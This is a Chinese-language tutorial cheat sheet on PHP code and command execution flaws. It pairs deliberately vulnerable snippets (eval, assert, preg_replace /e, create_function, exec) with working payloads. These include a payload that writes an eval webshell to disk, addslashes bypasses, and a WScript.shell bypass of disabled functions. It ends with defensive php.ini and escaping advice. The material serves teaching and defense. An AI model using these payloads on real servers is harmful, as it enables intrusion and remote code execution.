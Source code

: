 
## php 代码执行

* eval


```
# 1. 没有任何过滤
<?php
@eval($_GET["cmd"]);
?>

visit: ?cmd=phpinfo();
       ?cmd=fputs(fopen('test.php','w'),'<?php @eval($_POST[test])?>')

# 2. addslashes 过滤
<?php
$cmd = @(string)$_GET["cmd"];
eval('$cmd="' . addslashes($cmd) . '";');
?>
# ${${}} 绕过
cmd=${${phpinfo()}}

# 3 引号包含过滤
<?php
$cmd = "echo \"hello " . $_GET['cmd'] . "\";";
eval($cmd);
# ${${}} 绕过
cmd=${${phpinfo()}}
```

* assert()

```
<?php
@assert($_GET["cmd"]);
?>
cmd=phpinfo();
```

* preg_replace + '/e'

```
# 1. parameter 1
# magic_quotes_gpc=Off时，导致代码执行。
<?php
$regexp = $_GET['reg'];
$var = '<php>phpinfo()</php>';
preg_replace("/<php>(.*?)$regexp", '\\1', $var);
?>
reg=%3C\/php%3E/e, 执行 phpinfo.

# 2. parameter 2
# 当replacement 参数构成一个合理的php 代码字符串的时候
# /e 修正符使preg_replace()，将replacement 参数当做php 代码执行
<?php
preg_replace("//e", $_GET['cmd'], "cmd test");
?>
cmd=phpinfo();

# 3. parameter 3
<?
preg_replace("/\s*\[php\](.+?)\[\/php\]\s*/ies", "\\1", $_GET['h']);
?>
h=[php]phpinfo()[/php]
```

* call_user_func

* call_user_func_array

* create_function

```
<?php
$cmd = $_GET['cmd'];
$func = create_function('$arg1, $arg2', $cmd);
$func(1, 2);
?>
cmd=phpinfo();
```

*  array_map

```
<?php
$evil_callback = $_GET['callback'];
$some_array = array(0, 1, 2, 3);
$new_array = array_map($evil_callback, $some_array);
?>
callback=phpinfo
```

## php 执行系统命令

php能够执行系统命令的函数有：

assert,system,passthru,exec,pcntl_exec,shell_exec,popen,proc_open,`` `(反单引号)``

* shell_exec()

> string shell_exec ( string $cmd )

命令执行的输出。 如果执行过程中发生错误或者进程不产生输出，则返回 NULL。

* system()

> string system ( string $command [, int &$return_var ］)

成功则返回命令输出的结果， 失败则返回 FALSE

* exec()

> string exec( string $command [, array &$output [, int &$return_var ］)

返回命令执行结果的最后一行内容

```
<?php
$cmd = $_GET["cmd"];
$output = array();
echo "<pre>";
exec($cmd,$output);
echo "</pre>";
while(list($key,$value)=each($output))
{
    echo $value."<br>";
}
?>
cmd=ifconfig
```

* passthru

> void passthru ( string $command [, int &$return_var ］ )

直接将结果输出到游览器,不返回任何值

* popen()

* proc_open()

* `(反撇号) 与 shell_exec 功能相同

```
$ php -r 'echo `ls -l`;'
```

### 防御

* php.ini

```
safe_mode = On      #safe mode
safe_mode_exec_dir = /usr/local/php/bin/    #limit path

disable_functions="eval,phpinfo"
```

* 使用escapeshellcmd()和escapeshellarg()函数阻止用户恶意在系统上执行命令

    + escapeshellcmd()针对的是执行的系统命令

    + escapeshellarg()针对的是执行系

### 绕过

* windows 组件绕过

```
# 防御：直接删除system32下的wshom.ocx文件
<?php
$command = $_POST[a];
$wsh = new COM('WScript.shell');    //生成一个COM对象
$exec = $wsh->exec('cmd.exe /c '.$command);    //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput
?>
```

## 防御

1、尽量不要执行外部命令

2、使用自定义函数或函数库来替代外部命令的功能

3、使用escapeshellarg函数来处理命令参数

4、使用safe_mode_exec_dir指定可执行文件的路径

esacpeshellarg函数会将任何引起参数或命令结束的字符转义，单引号“’”，替换成“\’”，双引号“"”，替换成“\"”，分号“;”替换成“\;”

用safe_mode_exec_dir指定可执行文件的路径，可以把会使用的命令提前放入此路径内

safe_mode = On

safe_mode_exec_dir = /usr/local/php/bin/
